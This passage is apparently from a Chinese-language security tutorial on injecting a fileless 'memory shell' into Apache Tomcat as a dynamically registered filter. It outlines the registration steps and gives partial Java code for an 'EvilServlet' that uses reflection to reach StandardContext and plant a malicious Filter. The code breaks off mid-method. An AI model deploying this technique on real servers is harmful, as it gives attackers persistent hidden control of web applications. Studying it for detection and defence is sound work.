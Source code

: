 ### Dynamic Registration

​	根据上文的分析，动态注入`filter`型内存马需要经过以下步骤：

- 创建恶意`filter`
- 用`filterDef`对`filter`进行封装
- 将`filterDef`添加到`filterDefs`跟`filterConfigs`中
- 创建一个新的`filterMap`将`URL`跟`filter`进行绑定，并添加到`filterMaps`中

​	每次请求`createFilterChain`都会依据此动态生成一个过滤链，而`StandardContext`又会一直保留到`Tomcat`生命周期结束，因此内存马便可以一直驻留下去，直到`Tomcat`重启后失效。

#### Servlet

```java
package servlet;

import org.apache.catalina.Context;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.ApplicationFilterConfig;
import org.apache.catalina.core.StandardContext;
import org.apache.tomcat.util.descriptor.web.FilterDef;
import org.apache.tomcat.util.descriptor.web.FilterMap;

import javax.servlet.*;
import javax.servlet.http.*;
import javax.servlet.annotation.*;
import java.io.IOException;
import java.io.InputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Map;
import java.util.Scanner;

@WebServlet(name = "EvilServlet", value = "/EvilServlet")
public class EvilServlet extends HttpServlet {
    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        super.doGet(request, response);
    }

    @Override
    protected void doPost(HttpServletRequest request, HttpServletResponse response) {
        try {
            // 通过反射获取standardContext
            ServletContext servletContext = request.getSession().getServletContext();
            Field context = servletContext.getClass().getDeclaredField("context");
            context.setAccessible(true);
            ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
            Field context1 = applicationContext.getClass().getDeclaredField("context");
            context1.setAccessible(true);
            StandardContext standardContext = (StandardContext) context1.get(applicationContext);

            String filterName = "h3rmesk1t";
            Field filterConfigs = standardContext.getClass().getDeclaredField("filterConfigs");
            filterConfigs.setAccessible(true);
            Map filterConfigsMap = (Map) filterConfigs.get(standardContext);

            // 设置恶意的Filter
            if (filterConfigsMap.get(filterName) == null) {
                Filter filter = new Filter() {
                    @Override
                    public void init(FilterConfig config) {
```